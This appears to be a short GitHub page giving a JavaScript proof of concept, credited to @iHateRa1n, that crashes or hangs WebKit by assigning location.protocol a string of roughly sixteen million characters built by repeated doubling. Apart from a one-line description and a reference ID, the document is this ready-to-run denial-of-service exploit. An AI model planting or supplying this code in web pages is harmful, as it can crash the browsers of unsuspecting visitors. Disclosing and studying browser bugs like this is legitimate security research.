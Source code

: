 # WebKit DoS or crash by flooding location.protocol

location.protocol can DoS or crash WebKit, with a large String.

PoC (@iHateRa1n):

```javascript
var s="A";
var k=24;

function repeat(s,k){
    n=0;
    j=s;
    while(n<k){
        j+=j;
        n++;
    }
    return j;
}

function exploit(s){
    location.protocol=s;
}

s=repeat(s,k);

exploit(s);
```

WebKit DoS discovered, and exploited by @iHateRa1n. 

PS-2018-7641
